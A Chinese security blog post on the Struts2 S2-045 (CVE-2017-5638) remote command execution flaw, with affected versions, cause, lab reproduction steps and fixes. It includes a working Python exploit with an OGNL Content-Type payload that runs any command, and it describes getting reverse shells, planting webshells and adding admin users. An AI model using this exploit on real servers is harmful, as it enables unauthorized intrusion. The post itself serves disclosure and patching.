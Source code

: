 ```yaml
---
title: Struts2远程命令执行漏洞
categories:
  - 命令执行
tags:
  - Struts2
  - 命令执行漏洞
toc: true 文章目录
author: BlBana
date: 2017-03-08 19:00:13
description:
comments:
original:
permalink:
---
```

## S2-045 Struts2远程命令执行漏洞

### 0x01 stucts
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。
<!-- more -->
### 0x02 影响范围
Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

### 0x03 不受影响版本
Struts 2.3.32 Struts 2.5.10.1

### 0x04 漏洞危害
在default.properties文件中，struts.multipart.parser的值有两个选择，分别是jakarta和pell。在Strucs 2框架中jakarta解析器是框架的标准组成部分。默认这个解析器是启动的。
由于该组件解析上传文件的Content-Type头时，异常处理函数没有正确的处理用户输入的错误信息。导致可以远程发送恶意的上传数据包，利用漏洞可以执行任意的命令。
> 漏洞编号：CVE-2017-5638
> 漏洞名称：S2-045：Struts 2远程执行代码漏洞
> 漏洞影响：基于JakartaMultipart解析器执行文件上传时可能的RCE

### 0x05 PoC漏洞检测
```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    if len(sys.argv) < 3:
        print '''Usage: poc.py http://172.16.12.2/example/HelloWorld.action "command"'''
        sys.exit()
    register_openers()
    datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```
**通过此PoC确认目标是否存在此漏洞**，此外还可以通过Seebug上的照妖镜来进行在线的检测，可以判断目标机器是否存在漏洞。

### 0x06 漏洞复现
我在本机的ubuntu上复现了此漏洞，配置环境如下：
1. Tomcat5
2. struts 2.3.31

1. 部署的方式比较容易，先安装好Tomcat的服务器，访问http://localhost:8080进行检测环境是否搭建成功。（需在服务器上配置好Java环境，参考连接：[Tomcat环境部署](http://drops.blbana.cc/2016/10/24/e9-80-9a-e8-bf-87tomcat-e8-8e-b7-e5-8f-96webshell/%22Tomcat%E7%8E%AF%E5%A2%83%E9%83%A8%E7%BD%B2%22)）
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/1.png)

2. Tomcat的环境搭建完成了以后，可以进入struts2的官网下载存在漏洞的应用程序版本，利用刚才部署环境里的方法将struts2的war包导入到Tomcat的环境当中，访问搭建好的环境如下所示：
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/2.png)

3. 环境搭建完成以后，可以利用上面的PoC对其进行一个测试的操作
> 注意：这个脚本需要安装poster的python类库才能正常运行
我是在windows环境下进行测试的，直接运行python的脚本，填写好目标的地址，可以拿到一个执行命令的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/3.png)

4. 接下来我们可以在公网的服务器上监听一个端口，然后利用命令执行反弹一个shell给服务器，直接获取服务器的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/4.png)

![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/5.png)

5. 除此之外，当我们拿到了较高的权限的时候，还可以在我们的服务器上放一个webshell，然后通过执行命令将服务器上的webshell下载到目标机器上，这里注意的是需要**知道网站的真实路径**（*通过locate *.jsp来定位jsp文件的位置*），之后当获得了webshell的时候就可以得到文件管理，上传等权限了。

6. 对于windows服务器可以直接执行创建用户和添加管理员的两条命令，如果3389端口打开，可以直接利用创建的用户打开远程桌面。

### 0x07漏洞修复
1. 升级版本：正在使用Jakarta文件上传插件的可以升级版本到struts2的安全版本
2. 过滤验证：通过判断Content-Type是否为白名单，限制非法的攻击
加固代码：

```java
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
 
 
public class SecurityFilter extends HttpServlet implements Filter {
 
        /**
         * 
         */
        private static final long serialVersionUID = 1L;
         
         
        public final String www_url_encode= "application/x-www-form-urlencoded";
        public final String mul_data= "multipart/form-data ";
        public final String txt_pla= "text/plain";
 
        public void doFilter(ServletRequest arg0, ServletResponse arg1,
                        FilterChain arg2) throws IOException, ServletException {
 
                HttpServletRequest request = (HttpServletRequest) arg0;
                HttpServletResponse response = (HttpServletResponse) arg1;
                 
                String contenType=request.getHeader("conTent-type");
                 
                if(contenType!=null&&!contenType.equals("")&&!contenType.equalsIgnoreCase(www_url_encode)&&!contenType.equalsIgnoreCase(mul_data)&&!contenType.equalsIgnoreCase(txt_pla)){
                         
                        response.setContentType("text/html;charset=UTF-8");
                        response.getWriter().write("非法请求Content-Type！");
                        return;
                }
                arg2.doFilter(request, response);
        }
 
        public void init(FilterConfig arg0) throws ServletException {
 
        }
 
}
```
编译成“SecurityFilter.class”复制到应用的WEB-INF/classes目录下，配置web.xml文件，使该文件生效

3. 还有一种方法就是进入将默认的Jakarta模块改为使用Pell模块


---
